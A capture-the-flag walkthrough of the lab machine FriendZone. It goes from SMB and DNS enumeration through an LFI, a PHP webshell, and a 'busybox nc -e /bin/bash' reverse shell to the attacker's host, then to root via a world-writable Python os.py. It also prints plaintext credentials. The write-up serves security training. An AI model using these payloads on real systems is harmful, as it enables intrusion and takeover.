





## About

FriendZone is an easy difficulty Linux box which needs fair amount enumeration. By doing a zone transfer vhosts are discovered. There are open shares on samba which provides credentials for an admin panel. From there, an LFI is found which is leveraged to get RCE. A cron is found running which uses a writable module, making it vulnerable to hijacking.

## Enumeration

### RustScan

```
rustscan -a 10.129.81.140 -- -sCV

<SNIP>

Open 10.129.81.140:22
Open 10.129.81.140:21
Open 10.129.81.140:53
Open 10.129.81.140:80
Open 10.129.81.140:139
Open 10.129.81.140:445
Open 10.129.81.140:443

<SNIP>

PORT    STATE SERVICE    REASON         VERSION
21/tcp  open  ftp        syn-ack ttl 63 vsftpd 3.0.3
22/tcp  open  ssh        syn-ack ttl 63 OpenSSH 7.6p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 a9:68:24:bc:97:1f:1e:54:a5:80:45:e7:4c:d9:aa:a0 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQC4/mXYmkhp2syUwYpiTjy
UAVgrXhoAJ3eEP/Ch7omJh1jPHn3RQOxqvy9w4M6mTbBezspBS+hu29tO2vZB
ubheKRKa/POdV5Nk+A+q3BzhYWPQA+A+XTpWs3biNgI/4pPAbNDvvts+1ti+s
Av47wYdp7mQysDzzqtpWxjGMW7I1SiaZncoV9L+62i+SmYugwHM0RjPt0HHor
32+ZDL0hed9p2ebczZYC54RzpnD0E/qO3EE2ZI4pc7jqf/bZypnJcAFpmHNYB
UYzyd7l6fsEEmvJ5EZFatcr0xzFDHRjvGz/44pekQ40ximmRqMfHy1bs2j+e3
9NmsNSp6kAZmNIsx
|   256 e5:44:01:46:ee:7a:bb:7c:e9:1a:cb:14:99:9e:2b:8e (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbml
zdHAyNTYAAABBBOPI7HKY4YZ5NIzPESPIcP0tdhwt4NRep9aUbBKGmOheJuah
FQmIcbGGrc+DZ5hTyGDrvlFzAZJ8coDDUKlHBjo=
|   256 00:4e:1a:4f:33:e8:a0:de:86:a6:e4:2a:5f:84:61:2b (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIF+FZS11nYcVyJgJiLrTYTI
y3ia5QvE3+5898MfMtGQl
53/tcp  open  domain     syn-ack ttl 63 ISC BIND 9.11.3-1ubuntu1.2 (Ubuntu Linux)
| dns-nsid:
|_  bind.version: 9.11.3-1ubuntu1.2-Ubuntu
80/tcp  open  http       syn-ack ttl 63 Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
| http-methods:
|_  Supported Methods: POST OPTIONS HEAD GET
|_http-title: Friend Zone Escape software
139/tcp open  netbios-ssn syn-ack ttl 63 Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
443/tcp open  ssl/http   syn-ack ttl 63 Apache httpd 2.4.29
|_http-title: 404 Not Found
| ssl-cert: Subject: commonName=friendzone.red/organizationName=CODERED/stateOrProvinceName=CODERED/countryName=JO/organizationalUnitName=CODERED/localityName=AMMAN/emailAddress=haha@friendzone.red
| Issuer: commonName=friendzone.red/organizationName=CODERED/stateOrProvinceName=CODERED/countryName=JO/organizationalUnitName=CODERED/localityName=AMMAN/emailAddress=haha@friendzone.red
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2018-10-05T21:02:30
| Not valid after:  2018-11-04T21:02:30
| MD5:   c144 1868 5e8b 468d fc7d 888b 1123 781c
| SHA-1: 88d2 e8ee 1c2c dbd3 ea55 2e5e cdd4 e94c 4c8b 9233
| SHA-256: 0b5b 4eed 552a 37d8 2cc9 abe8 0d53 8cd0 cb39 d5cc a678 36fe 2cf9 725d f180 97d8
| -----BEGIN CERTIFICATE-----
| MIID+DCCAuCgAwIBAgIJAPRJYD8hBBg0MA0GCSqGSIb3DQEBCwUAMIGQMQs
wCQYD
| VQQGEwJKTzEQMA4GA1UECAwHQ09ERVJFRDEOMAwGA1UEBwwFQU1NQU4xEDA
OBgNV
| BAoMB0NPREVSRUQxEDAOBgNVBAsMB0NPREVSRUQxFzAVBgNVBAMMDmZyaWV
uZHpv
| bmUucmVkMSIwIAYJKoZIhvcNAQkBFhNoYWhhQGZyaWVuZHpvbmUucmVkMB4
XDTE4
| MTAwNTIxMDIzMFoXDTE4MTEwNDIxMDIzMFowgZAxCzAJBgNVBAYTAkpPMRA
wDgYD
| VQQIDAdDT0RFUkVEMQ4wDAYDVQQHDAVBTU1BTjEQMA4GA1UECgwHQ09ERVJ
FRDEQ
| MA4GA1UECwwHQ09ERVJFRDEXMBUGA1UEAwwOZnJpZW5kem9uZS5yZWQxIjA
gBgkq
| hkiG9w0BCQEWE2hhaGFAZnJpZW5kem9uZS5yZWQwggEiMA0GCSqGSIb3DQE
BAQUA
| A4IBDwAwggEKAoIBAQCjImsItIRhGNyMyYuyz4LWbiGSDRnzaXnHVAmZn1U
eG1B8
| lStNJrR8/ZcASz+jLZ9qHG57k6U9tC53VulFS+8Msb0l38GCdDrUMmM3evw
smwrH
| 9jaB9G0SMGYiwyG1a5Y0EqhM8uEmR3dXtCPHnhnsXVfo3DbhhZ2SoYnyq/j
OfBuH
| gBo6kdfXLlf8cjMpOje3dZ8grwWpUDXVUVyucuatyJam5x/w9PstbRelNJm
1gVQh
| 7xqd2at/kW4g5IPZSUAufu4BShCJIupdgIq9Fddf26k81RQ11dgZihSfQa0
HTm7Q
| ui3/jJDpFUumtCgrzlyaM5ilyZEj3db6WKHHlkCxAgMBAAGjUzBRMB0GA1U
dDgQW
| BBSZnWAZH4SGp+K9nyjzV00UTI4zdjAfBgNVHSMEGDAWgBSZnWAZH4SGp+K
9nyjz
| V00UTI4zdjAPBgNVHRMBAf8EBTADAQH/MA0GCSqGSIb3DQEBCwUAA4IBAQB
V6vjj
| TZlc/bC+cZnlyAQaC7MytVpWPruQ+qlvJ0MMsYx/XXXzcmLj47Iv7EfQStf
2TmoZ
| LxRng6lT3yQ6Mco7LnnQqZDyj4LM0SoWe07kesW1GeP9FPQ8EVqHMdsiuTL
ZryME
| K+/4nUpD5onCleQyjkA+dbBIs+Qj/KDCLRFdkQTX3Nv0PC9j+NYcBfhRMJ6
VjPoF
| Kwuz/vON5PLdU7AvVC8/F9zCvZHbazskpy/quSJIWTpjzg7BVMAWMmAJ3KE
dxCoG
| X7p52yPCqfYopYnucJpTq603Qdbgd3bq30gYPwF6nbHuh0mq8DUxD9nPEcL
8q6XZ
| fv9s+GxKNvsBqDBX
|_-----END CERTIFICATE-----
|_ssl-date: TLS randomness does not represent time
| http-methods:
|_  Supported Methods: POST OPTIONS HEAD GET
|_http-server-header: Apache/2.4.29 (Ubuntu)
| tls-alpn:
|_  http/1.1
445/tcp open  netbios-ssn syn-ack ttl 63 Samba smbd 4.7.6-Ubuntu (workgroup: WORKGROUP)
Service Info: Hosts: FRIENDZONE, 127.0.1.1; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
| smb2-security-mode:
|   3.1.1:
|_    Message signing enabled but not required
| smb-security-mode:
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_clock-skew: mean: -1h02m52s, deviation: 1h43m54s, median: -2m53s
| smb2-time:
|   date: 2026-10-10T23:33:14
|_  start_date: N/A
| nbstat: NetBIOS name: FRIENDZONE, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| Names:
|   FRIENDZONE<00>        Flags: <unique><active>
|   FRIENDZONE<03>        Flags: <unique><active>
|   FRIENDZONE<20>        Flags: <unique><active>
|   \x01\x02__MSBROWSE__\x02<01>  Flags: <group><active>
|   WORKGROUP<00>         Flags: <group><active>
|   WORKGROUP<1d>         Flags: <unique><active>
|   WORKGROUP<1e>         Flags: <group><active>
| Statistics:
|   00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
|   00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
|_  00 00 00 00 00 00 00 00 00 00 00 00 00 00
| p2p-conficker:
|   Checking for Conficker.C or higher...
|   Check 1 (port 37734/tcp): CLEAN (Couldn't connect)
|   Check 2 (port 52291/tcp): CLEAN (Couldn't connect)
|   Check 3 (port 29637/udp): CLEAN (Failed to receive data)
|   Check 4 (port 32528/udp): CLEAN (Failed to receive data)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
| smb-os-discovery:
|   OS: Windows 6.1 (Samba 4.7.6-Ubuntu)
|   Computer name: friendzone
|   NetBIOS computer name: FRIENDZONE\x00
|   Domain name: \x00
|   FQDN: friendzone
|_  System time: 2026-10-11T02:33:14+03:00

<SNIP>
```

Port scanning revealed several open ports, as shown below:

| Port | Service | Version |
|---|---|---|
| 21/TCP | FTP | vsftpd 3.0.3 |
| 22/TCP | SSH | OpenSSH 7.6p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0) |
| 53/TCP | DNS | BIND 9.11.3-1ubuntu1.2 (Ubuntu Linux) |
| 80/TCP | HTTP | Apache httpd 2.4.29 ((Ubuntu)) |
| 139/TCP | NetBIOS | Samba smbd 3.X - 4.X (workgroup: WORKGROUP) |
| 443/TCP | HTTPS | Apache httpd 2.4.29 |
| 445/TCP | SMB | Samba smbd 4.7.6-Ubuntu (workgroup: WORKGROUP) |

### SMB

First, I started by enumerating SMB shares using `nxc`.

```
nxc smb 10.129.81.140 -u '' -p '' --shares
SMB         10.129.81.140   445    FRIENDZONE       [*] Unix - Samba (name:FRIENDZONE) (domain:) (signing:False) (SMBv1:True) (Null Auth:True)
SMB         10.129.81.140   445    FRIENDZONE       [+] \: (Guest)
SMB         10.129.81.140   445    FRIENDZONE       [*] Enumerated shares
SMB         10.129.81.140   445    FRIENDZONE       Share           Permissions     Remark
SMB         10.129.81.140   445    FRIENDZONE       -----           -----------     ------
SMB         10.129.81.140   445    FRIENDZONE       print$                          Printer Drivers
SMB         10.129.81.140   445    FRIENDZONE       Files                           FriendZone Samba Server Files /etc/Files
SMB         10.129.81.140   445    FRIENDZONE       general         READ            FriendZone Samba Server Files
SMB         10.129.81.140   445    FRIENDZONE       Development     READ,WRITE      FriendZone Samba Server Files
SMB         10.129.81.140   445    FRIENDZONE       IPC$                            IPC Service (FriendZone server (Samba, Ubuntu))
```

Regarding the description of the Files share, it maps to the `/etc/files` directory in the file system. We can assume by analogy that other shares also map to directories under the `/etc` directory. Rather than guessing, we can verify this using the `netshareenumall` command in `rpcclient` as shown below.

```
rpcclient -U '' 10.129.81.140 -N -c 'netshareenumall'
netname: print$
        remark: Printer Drivers
        path:   C:\var\lib\samba\printers
        password:
netname: Files
        remark: FriendZone Samba Server Files /etc/Files
        path:   C:\etc\hole
        password:
netname: general
        remark: FriendZone Samba Server Files
        path:   C:\etc\general
        password:
netname: Development
        remark: FriendZone Samba Server Files
        path:   C:\etc\Development
        password:
netname: IPC$
        remark: IPC Service (FriendZone server (Samba, Ubuntu))
        path:   C:\tmp
        password:
```

It seems that other shares were also created under `/etc`. This could be useful later.

Furthermore, I checked the `general` and `development` shares, to which I have read access, using `smbclient`.

#### Development

nothing interesting here

```
smbclient //10.129.81.140/Development -N
Try "help" to get a list of possible commands.
smb: \> dir
  .                                   D        0  Sat Oct 10 19:36:40 2026
  ..                                  D        0  Tue Sep 13 10:56:24 2022

                3545824 blocks of size 1024. 1650264 blocks available
smb: \>
```

#### general

This share revealed a `creds.txt` file, which contained potential administrator credentials (`admin:WORKWORKHhallelujah@#`) that might come in handy.

```
smbclient //10.129.81.140/general -N
Try "help" to get a list of possible commands.
smb: \> dir
  .                                   D        0  Wed Jan 16 15:10:51 2019
  ..                                  D        0  Tue Sep 13 10:56:24 2022
  creds.txt                           N       57  Tue Oct  9 19:52:42 2018

                3545824 blocks of size 1024. 1650264 blocks available
smb: \> get creds.txt
getting file \creds.txt of size 57 as creds.txt (0.1 KiloBytes/sec) (average 0.1 KiloBytes/sec)
smb: \> !cat creds.txt
creds for the admin THING:

admin:WORKWORKHhallelujah@#

smb: \>
```

### HTTP/HTTPS

Visiting the website, I found a potential domain (`friendzoneportal.red`) on the main page.


Additionally, I checked the certificate details and discovered another domain (`friendzone.red`).



### DNS

As we discovered DNS (port 53) to be open, we can try to perform a zone transfer attack (AXFR) for these domains using `dig`.

#### friendzoneportal.red

```
dig axfr friendzoneportal.red @10.129.81.140

; <<>> DiG 9.20.27-1-Debian <<>> axfr friendzoneportal.red @10.129.81.140
; (1 server found)
;; global options: +cmd
friendzoneportal.red.  604800  IN      SOA     localhost. root.localhost. 2 604800 86400 2419200 604800
friendzoneportal.red.  604800  IN      AAAA    ::1
friendzoneportal.red.  604800  IN      NS      localhost.
friendzoneportal.red.  604800  IN      A       127.0.0.1
admin.friendzoneportal.red. 604800 IN  A       127.0.0.1
files.friendzoneportal.red. 604800 IN  A       127.0.0.1
imports.friendzoneportal.red. 604800 IN A      127.0.0.1
vpn.friendzoneportal.red. 604800 IN    A       127.0.0.1
friendzoneportal.red.  604800  IN      SOA     localhost. root.localhost. 2 604800 86400 2419200 604800
;; Query time: 147 msec
;; SERVER: 10.129.81.140#53(10.129.81.140) (TCP)
;; WHEN: Sat Oct 10 19:36:15 EDT 2026
;; XFR size: 9 records (messages 1, bytes 309)
```

#### friendzone.red

```
dig axfr friendzone.red @10.129.81.140

; <<>> DiG 9.20.27-1-Debian <<>> axfr friendzone.red @10.129.81.140
; (1 server found)
;; global options: +cmd
friendzone.red.        604800  IN      SOA     localhost. root.localhost. 2 604800 86400 2419200 604800
friendzone.red.        604800  IN      AAAA    ::1
friendzone.red.        604800  IN      NS      localhost.
friendzone.red.        604800  IN      A       127.0.0.1
administrator1.friendzone.red. 604800 IN A     127.0.0.1
hr.friendzone.red.     604800  IN      A       127.0.0.1
uploads.friendzone.red. 604800 IN      A       127.0.0.1
friendzone.red.        604800  IN      SOA     localhost. root.localhost. 2 604800 86400 2419200 604800
;; Query time: 203 msec
;; SERVER: 10.129.81.140#53(10.129.81.140) (TCP)
;; WHEN: Sat Oct 10 19:53:51 EDT 2026
;; XFR size: 8 records (messages 1, bytes 289)
```

I added these uncovered subdomains to `/etc/hosts` and checked them one by one. Many of these subdomains appeared to be rabbit holes; however, using credentials discovered in the SMB share, I obtained access to `administrator1.friendzone.red`



## Initial Access

Visiting dashboard.php revealed parameters such as `image_id` and `pagename`, which could be potentially vulnerable to LFI.



Passing a value of 'timestamp' to the pagename parameter included `timestamp.php`. Replacing 'timestamp' with 'dashboard' confirmed Local File Inclusion (LFI). The application appends `.php` to the pagename value before including the file.



In order to get RCE, we need to include a PHP file, such as a webshell or reverse shell. I tried hosting a webshell script and including it via Remote File Inclusion (RFI), but it didn't work. Then, I remembered that I had write access to the Development SMB share, which maps to `/etc/Development`. By uploading a webshell to the share, we can achieve RCE as shown below:

shell.php

```php
<?php
system($_GET['cmd']);
?>
```

Uploading `shell.php` using `smbclient`

```
smbclient //10.129.81.140/Development -N
Try "help" to get a list of possible commands.
smb: \> put shell.php
putting file shell.php as \reverse.php (7.0 kB/s) (average 7.0 kB/s)
```

Visiting `https://administrator1.friendzone.red/dashboard.ph?image_id=a.jpg&pagename=/etc/Development/shell&cmd=whoami` we achieve code execution



I obtained a reverse shell by running `busybox nc 10.10.15.13 4444 -e /bin/bash`, and then spawned a PTY shell using `python3 -c 'import pty;pty.spawn("/bin/bash")'`

```
nc -lnvp 4444
listening on [any] 4444 ...
connect to [10.10.15.13] from (UNKNOWN) [10.129.81.140] 44284
python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@FriendZone:/var/www/admin$
```

## Lateral Movement

After quick local enumeration, I found `mysql_data.conf`, which included the password for the friend user.

```
www-data@FriendZone:/var/www/admin$ cd ..
www-data@FriendZone:/var/www$ ls
admin          friendzoneportal      html           uploads
friendzone     friendzoneportaladmin mysql_data.conf
www-data@FriendZone:/var/www$ cat mysql_data.conf
for development process this is the mysql creds for user friend

db_user=friend

db_pass=Agpyu12!0.213$

db_name=FZ
```

I used these credentials to gain access as the friend user via SSH.

```
ssh friend@10.129.81.140
<SNIP>
Welcome to Ubuntu 18.04.1 LTS (GNU/Linux 4.15.0-36-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

You have mail.
Last login: Thu Jan 24 01:20:15 2019 from 10.10.14.3
friend@FriendZone:~$
```

## Privilege Escalation

After gaining access as the friend user, I enumerated running processes using `pspy` and noticed an interesting Python script, `/opt/server_admin/reporter.py`, running as root.

```
<SNIP>
2026/10/11 03:28:18 CMD: UID=0     PID=1      | /sbin/init splash
2026/10/11 03:29:21 CMD: UID=0     PID=1945   |
2026/10/11 03:30:01 CMD: UID=0     PID=1950   | /usr/bin/python /opt/server_admin/reporter.py
2026/10/11 03:30:01 CMD: UID=0     PID=1949   | /bin/sh -c /opt/server_admin/reporter.py
2026/10/11 03:30:01 CMD: UID=0     PID=1948   | /usr/sbin/CRON -f
<SNIP>
```

The script doesn't run anything special, but it imports the os module. If we can somehow hijack this library, it could be possible to gain root access.

```
friend@FriendZone:/opt/server_admin$ cat reporter.py
#!/usr/bin/python

import os

to_address = "admin1@friendzone.com"
from_address = "admin2@friendzone.com"

print "[+] Trying to send email to %s"%to_address

#command = ''' mailsend -to admin2@friendzone.com -from admin1@friendzone.com -ssl -port 465 -auth -smtp smtp.gmail.co-subscheduled results email +cc +bc -v -user you -pass "PAPAP"'''

#os.system(command)

# I need to edit the script later
# Sam ~ python developer
```

As I don't have write access to `/opt`, I was unable to hijack the library by creating a malicious `os.py`. Therefore, I searched for `os.py` to see if I could modify the module itself.

```
friend@FriendZone:/$ find -name os.py 2>/dev/null -ls
   134708     40 -rw-r--r--   1 root     root        37526 Sep 12  2018 ./usr/lib/python3.6/os.py
    20473     28 -rwxrwxrwx   1 root     root        25910 Jan 15  2019 ./usr/lib/python2.7/os.py
```

`/usr/lib/python2.7/os.py` seemed to be world-writable, so I added `system("chmod +s /bin/bash")` to the file to set the SUID bit on `/bin/bash`.

After a short wait, the SUID bit was set on `/bin/bash`.

```
friend@FriendZone:/$ ls -l /bin/bash
-rwsr-sr-x 1 root root 1113504 Apr  4  2018 /bin/bash
```

Finally, by running `/bin/bash -p`, I successfully obtained a root shell.

```
friend@FriendZone:/$ /bin/bash -p
bash-4.4# whoami
root
```
